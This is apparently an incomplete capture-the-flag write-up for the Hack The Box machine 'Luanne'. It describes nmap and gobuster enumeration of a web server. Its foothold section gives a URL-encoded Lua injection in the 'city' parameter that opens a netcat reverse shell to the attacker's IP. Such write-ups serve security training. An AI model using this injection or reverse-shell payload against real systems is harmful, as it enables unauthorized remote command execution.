




    	Luanne

​		17th Januray 2021

​		Machine Author(s): polarbearer

​		

 

### Description:

Luanne is an easy-level machine. 

### Difficulty:

`easy`

### Flags:

User: `<md5>`

Root: `<md5>`

# Enumeration

1) So first of all I perfomed an nmap scan on the machine which gave me the following results.

2) We can see that its got an nginx server on port 80 which requires authentication (you can make out from the status code 401).

3) Robots.txt tells us we have a directory named weather. When we go to the route http://10.10.10.218/weather, we get a 404 not found error.

4) Hereafter I thought of performing a directory scan via gobuster to check if there are any other directories present. I found this...

5) After I went over to /forecast, I found a JSON message which said the following...

city=list?..I guess it must be a parameter that is being passed to the URL

what if we pass a reverse shell instead of list to the variable city?...worth a shot..

# Foothold

So I found a reverse shell and I url encoded it.

?city=10.10.10.218%2Fweather%2Fforecast%3Fcity%3D')%3Bos.execute("rm %2Ftmp%2Ff%3Bmkfifo %2Ftmp%2Ff%3Bcat %2Ftmp%2Ff|%2Fbin%2Fsh -i 2>%261|nc 10.10.14.136 4242 >%2Ftmp%2Ff")--

# Lateral Movement

# Privilege Escalation

